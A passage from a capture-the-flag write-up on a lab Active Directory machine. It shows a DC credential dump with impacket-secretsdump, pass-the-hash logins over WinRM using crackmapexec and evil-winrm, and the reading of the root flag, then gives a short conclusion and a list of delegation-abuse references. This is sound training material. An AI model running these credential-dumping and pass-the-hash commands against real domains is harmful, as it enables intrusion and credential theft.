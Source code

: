 We can now dump the secrets of the DC with our ticket using `secretsdump`.

```
└─$ impacket-secretsdump -k dc1.delegate.vl
......
[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[...snip...]:::
```

If you have done all of the required steps, you should have the NT hash for the Administrator user. We can now use this to login to DC via WinRM.

```
└─$ crackmapexec winrm 10.10.92.191 -u 'Administrator' -H '[...snip...]'
SMB         10.10.92.191    5985   DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
HTTP        10.10.92.191    5985   DC1              [*] http://10.10.92.191:5985/wsman
WINRM       10.10.92.191    5985   DC1              [+] delegate.vl\Administrator:[...snip...] (Pwn3d!)
```

```
└─$ evil-winrm --ip 10.10.92.191 -u 'Administrator' -H '[...snip...]'

Evil-WinRM shell v3.5
 
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ..\Desktop\root.txt
VL[...snip...]
```

Now that we have read the root flag and have access via WinRM as the Administrator user, we have successfully completed this machine!

# Conclusion

This machine specifically was difficult (for priv esc) as it involved exploiting unconstrained delegation REMOTELY. I've only exploited unconstrained delegation between machines, to which one of them I had access as SYSTEM. This was something new to learn, and the `MachineAccountQuota` attribute is something that is definitely helpful as part of the exploit process.

Big thanks to `geiseric` for creating this machine.

# Resources

https://github.com/dirkjanm/BloodHound.py
https://github.com/ShutdownRepo/targetedKerberoast
https://hashcat.net/wiki/doku.php?id=example_hashes
https://www.elastic.co/guide/en/security/current/sensitive-privilege-seenabledelegationprivilege-assigned-to-a-user.html
https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/
https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
https://www.thehacker.recipes/ad/movement/kerberos/delegations/unconstrained
https://www.thehacker.recipes/ad/movement/domain-settings/machineaccountquota
https://github.com/Kevin-Robertson/Powermad
